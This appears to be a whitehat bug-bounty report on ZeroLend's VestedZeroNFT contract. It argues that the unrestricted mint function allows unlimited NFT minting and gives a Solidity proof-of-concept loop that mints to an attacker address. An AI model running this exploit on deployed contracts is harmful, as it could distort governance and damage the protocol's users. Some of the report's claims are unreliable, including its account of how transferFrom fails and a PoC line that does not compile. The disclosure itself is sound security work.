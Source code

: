 # Unlimited Minting of VestedZeroNFT

Submitted  about 2 months  ago by @oxumarkhatab (Whitehat)  for  [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost)


Report ID: #29130

Report type: Smart Contract

Has PoC?: Yes

Target: https://github.com/zerolend/governance

Impacts

-   Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Brief/Intro

In current Implementation , the checks can easily be passed inside the public mint function because all the paramters are user controlled and there is no access control on that function.

## Vulnerability Details

The mint function does not have any access control implemented . Also there are checks which can easily be circumvented through careful crafting of those parameters and minting unlimited NFTs .

Take a look at this code

```
    function mint(
        address _who,
        uint256 _pending,
        uint256 _upfront,
        uint256 _linearDuration,
        uint256 _cliffDuration,
        uint256 _unlockDate,
        bool _hasPenalty,
        VestCategory _category
    ) external returns (uint256) {
        _mint(_who, ++lastTokenId);

        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");

        if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }

        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });

        // fund the contract
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);

        return lastTokenId;
    }


```

First of all , there is no restriction to call this function so attacker can call and exploit it.

The function mints the latest ID NFT to the address passed , the attacker will pas his own address ` _mint(_who, ++lastTokenId);

` Now attacker has to make this transaction success by avoiding require failures. here's how he can do it.

If user pass  `_unlockDate`  as 0 , then following checks will be passed ` if (_unlockDate == 0) _unlockDate = block.timestamp; require(_unlockDate >= block.timestamp, "invalid _unlockDate");

`

Now for circumventing Plenty block, user will pass false

`if (_hasPenalty) { require(_upfront == 0, "no upfront when there is a penalty"); require(_cliffDuration == 0, "no cliff when there is a penalty"); }`  a new Lock is created

`tokenIdToLockDetails[lastTokenId] = LockDetails({ cliffDuration: _cliffDuration, unlockDate: _unlockDate, pendingClaimed: 0, upfrontClaimed: 0, pending: _pending, hasPenalty: _hasPenalty, upfront: _upfront, linearDuration: _linearDuration, createdAt: block.timestamp, category: _category });`

And lastly some zeroToken needs to be moved from attacker's pocket to VestedZeroNFT contract . Which attacker can easily trick by passing pending and upfront amounts as 0 , ` zero.transferFrom(msg.sender, address(this), _pending + _upfront);

` See the protocol does not use safeTransferFrom , rather transferFrom from openzeppelin standard as it imports as follows

` import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";

` Looking at OZs implementation , this function returns false on not sucess, so whatever amount we pass in as _pending and _upfront , the transfer might fail but transaction will not . That is the sweet spot for attacker.

`function transferFrom(address from, address to, uint256 value) external returns (bool);`

The Transaction is sucessfully executed and now the attacker has New NFT.

This process can be repeated for as long as attacker wants to print money out of thin air .

If Governance can be affected by amount of NFTs you have , Attacker has successfully gained the absolute power to screw the governance.

Hence this vulnerability is of critical importance.

## Impact Details

Attacker can have unlimited NFTs at the cost of just gas for transaction : )

If Governance can be affected by amount of NFTs you have , Attacker has successfully gained the absolute power to screw the governance.

Hence this vulnerability is of critical importance.

## References

See PoC for more details



## Proof of Concept

```solidity

event NewTokenIDMinted(uint);

    function test_InfiniteMint()public {
        address DEPLOYED_VESTED_ZERO_NFT_ADDRESS=address();
        address AttackerAddress=0x37A8d3c717ec8fDc8BD859627F18ce89c31E1E8b;
        VestedZeroNFT vest=new VestedZeroNFT();
        for (uint i = 0; i < 1000; i++) {
            
            uint newTokenId =vest.mint(
                    AttackerAddress,
                    0,
                    0,
                    0, // pass any suitable value 
                    0, // pass any suitable value 
                    0 ,// to  these checks  if (_unlockDate == 0) _unlockDate = block.timestamp; require(_unlockDate >= block.timestamp, "invalid _unlockDate");
                    false,
                    VestCategory.EARLY_ZERO


                );
                emit NewTokenIDMinted(newTokenId);
            
            }

    }
```
